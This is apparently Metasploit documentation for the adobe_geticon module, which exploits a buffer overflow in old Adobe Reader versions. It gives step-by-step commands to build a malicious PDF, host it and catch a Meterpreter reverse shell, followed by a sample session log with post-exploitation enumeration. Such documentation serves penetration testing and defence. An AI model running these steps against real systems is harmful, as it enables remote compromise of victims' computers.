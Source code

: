 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat. Affected versions include < 7.1.1, < 8.1.3, and < 9.1. By creating a specially crafted pdf that a contains malformed Collab.getIcon() call, an attacker may be able to execute arbitrary code.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-0-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_geticon`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use [exploit/multi/handler]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 8.0.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_geticon
  msf exploit(windows/fileformat/adobe_geticon) > set FILENAME icon.pdf
    FILENAME => icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > exploit

    [*] Creating 'icon.pdf' file...
    [+] icon.pdf stored at /root/.msf4/local/icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf
    [*] exec: cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf

  msf payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 3 opened (192.168.1.3:4444 -> 192.168.1.5:1160) at 2019-12-06 14:40:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

     Name            Version
     ----            -------
     Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191206144654_default_192.168.1.5_host.application_162364.txt
  ```
